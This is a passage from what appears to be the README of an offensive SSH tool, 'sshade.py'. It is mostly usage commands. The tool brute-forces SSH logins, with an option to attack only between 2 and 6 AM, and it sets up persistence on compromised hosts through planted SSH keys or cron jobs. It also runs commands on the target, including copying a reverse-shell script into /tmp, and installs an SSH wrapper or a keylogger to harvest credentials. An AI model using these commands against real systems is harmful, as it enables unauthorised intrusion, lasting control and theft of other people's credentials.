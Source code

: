 ```bash

# With time window (only attack between 2 AM and 6 AM)
python3 sshade.py -t 192.168.1.100 -m brute --time-start 2 --time-end 6
```

### 2. Key-based Authentication
```bash
python3 sshade.py -t <target_ip> -m key -k <private_key_path>
```
**Note:** Currently displays warning as not yet implemented.

### 3. Persistence (SSH key or cron job)
Establish persistence on a compromised host.
```bash
python3 sshade.py -t <target_ip> -m persist [-k <public_key_path>]
```
**Examples:**
```bash
# SSH key persistence (using demo key)
python3 sshade.py -t 192.168.1.100 -m persist -k keys/demo_id_rsa.pub

# Cron job persistence (default)
python3 sshade.py -t 192.168.1.100 -m persist
```

### 4. Command Execution
Run a command on the target after successful login.
```bash
python3 sshade.py -t <target_ip> -m exec -c "<command>"
```
**Examples:**
```bash
# Basic command execution
python3 sshade.py -t 192.168.1.100 -m exec -c "whoami"

# System enumeration
python3 sshade.py -t 192.168.1.100 -m exec -c "uname -a && id && ps aux"

# File upload via SCP (after login)
python3 sshade.py -t 192.168.1.100 -m exec -c "scp payloads/reverse_shell.sh user@192.168.1.100:/tmp/"
```

### 5. Credential Harvesting
Install credential harvesting tools on the target.
```bash
python3 sshade.py -t <target_ip> -m credharv --credharv-action <wrapper|keylogger>
```
**Examples:**
```bash
# Install SSH wrapper for credential capture
python3 sshade.py -t 192.168.1.100 -m credharv --credharv-action wrapper

# Install keylogger for keystroke capture
python3 sshade.py -t 192.168.1.100 -m credharv --credharv-action keylogger
```
